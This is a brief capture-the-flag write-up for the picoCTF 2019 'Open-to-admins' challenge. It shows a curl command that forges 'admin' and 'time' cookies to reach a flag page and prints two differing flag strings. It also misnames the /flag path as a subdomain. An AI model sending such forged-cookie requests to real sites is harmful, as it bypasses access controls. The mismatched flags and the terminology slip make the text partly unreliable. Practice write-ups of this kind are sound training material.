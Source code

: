 __Question:__

- This secure website allows users to access the flag only if they are __admin__ and if the __time__ is exactly 1400. ([link](https://2019shell1.picoctf.com/problem/21882/))


__Answer:__

- I tried to edit the cookies but i can't or didnt edited the right ones!

__WriteUp:__

We can provide the requested values using cURL:

```
root@kali:/media/sf_CTFs/pico/Open-to-admins# curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;" -s | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{0p3n_t0_adm1n5_bb42f2e0}</code></p>
```
- We can see that the site has a subdomain from the source code

```
<div class="jumbotron">
           <p class="lead"></p>
           <p><a href="/flag" class="btn btn-lg btn-success btn-block"> Flag</a></p>
       </div>

```

### picoCTF{0p3n_t0_adm1n5_b6ea8359}

* * *

cURL seams a cool tool
